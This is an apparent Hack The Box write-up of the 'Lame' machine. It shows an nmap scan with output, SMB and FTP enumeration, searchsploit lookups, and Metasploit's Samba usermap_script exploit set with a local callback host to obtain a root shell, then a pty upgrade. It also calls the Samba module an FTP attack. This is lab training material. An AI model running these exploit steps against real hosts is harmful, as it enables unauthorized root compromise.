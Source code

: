 ```yaml
---
title: "Lame - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Lame
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Lame
![](https://kar0nx.github.io/assets/images/writeup/fb2d9f98400e3c802a0d7145e125c4ff.webp)
 
## Reconnaissance

IP: 10.10.10.3
### NMAP

```
nmap -T4 -A -p- 10.10.10.3
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 09:26 EST
Nmap scan report for 10.10.10.3
Host is up (0.031s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), DD-WRT v24-sp1 (Linux 2.4.36) (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.7 (90%), Citrix XenServer 5.5 (Linux 2.6.18) (90%), Linux 2.6.27 - 2.6.28 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-02-19T09:28:43-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m16s, deviation: 3h32m10s, median: 14s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   30.62 ms 10.10.14.1
2   30.89 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.08 seconds

```

Nmap shows open ports on ftp (21), ssh (22), smb (139,445)
### SMB

```
smbclient -L //10.10.10.3  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219153103.png)

We can't do much here, lets search for exploits.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219153935.png)

### FTP

Anonymous login is allowed, but directory is empty
Searching for exploits

```
searchsploit vsftpd 2.3.4    
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219153607.png)
## Gaining Access

I will use Metasploit, lets start with FTP

```
use exploit/multi/samba/usermap_script

set rhosts 10.10.10.3

set lhost tun0
```

shows empty line but after few commands works fine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219155256.png)

If doesn't work, spawn shell via python

```
‍python -c 'import pty; pty.spawn("bash")'
```

We have root access. Now go and find your flags.